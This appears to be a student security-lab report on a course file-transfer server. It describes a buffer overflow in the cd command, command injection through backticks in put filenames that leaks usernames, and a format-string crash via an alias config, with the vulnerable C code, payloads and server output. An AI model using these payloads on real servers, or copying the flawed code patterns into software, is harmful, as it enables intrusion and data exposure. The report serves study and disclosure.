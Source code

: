 ## Team1

### Buffer overflow

* Giving a long path to the CD command will overflow the path buffer. The code as it is, is trying to set an invalid array positon. The only catch is that, the directory which we want to cd into, should exist.

```C
char path[128];
// check size limitations
size_t len = strlen(current);
strncpy(path, current, len);
path[128] = '\0';
```
```
Server output:
 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
mc08 56 $ 

```
### Command injection

* The put comand creates a file by using the '>' operator. We can thus inject commands in the filename

Getting back a list of all usernames on the server:
```
mc08 124 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
put `users` 4
open(): No such file or directory
put port: 64049
Attempting to transfer file before put call
mc08 125 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
-rw-r----- 1 njaganna njaganna 0 Mar 18 12:00 achiraya chou63 chou63 njaganna njaganna wei253 wu1220

```
### Format string

* All the alias commands are run using Popen. Before this, they are all printed to the stderr of the server using fprintf.
```C
std::string msg("=== Running subprocess: " + cmd);
fprintf(stderr, msg.c_str());
```
If the alias would have taken user input, this would have been exploitable. As this is not implemented, we can use the put command to overwrite the conf file as directory structure is not implemented. If the server restarts, this new conf file will be read and the exploit will work.
```
Server:

 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: echo
Segmentation fault (core dumped)

Client:

[i] Connecting to 127.0.0.1:3490
login n
pass 1
echo
[!] Disconnected from server
mc02 75 $

Sploit.conf: 
alias echo echo %s%s%s%s%s%s%s%s%s%s%s%s%s%s
```
This attack can also be used to inject commands into the sploit.conf file.

### Design bugs

* None of the alias commands take parameters.
* No directory structure


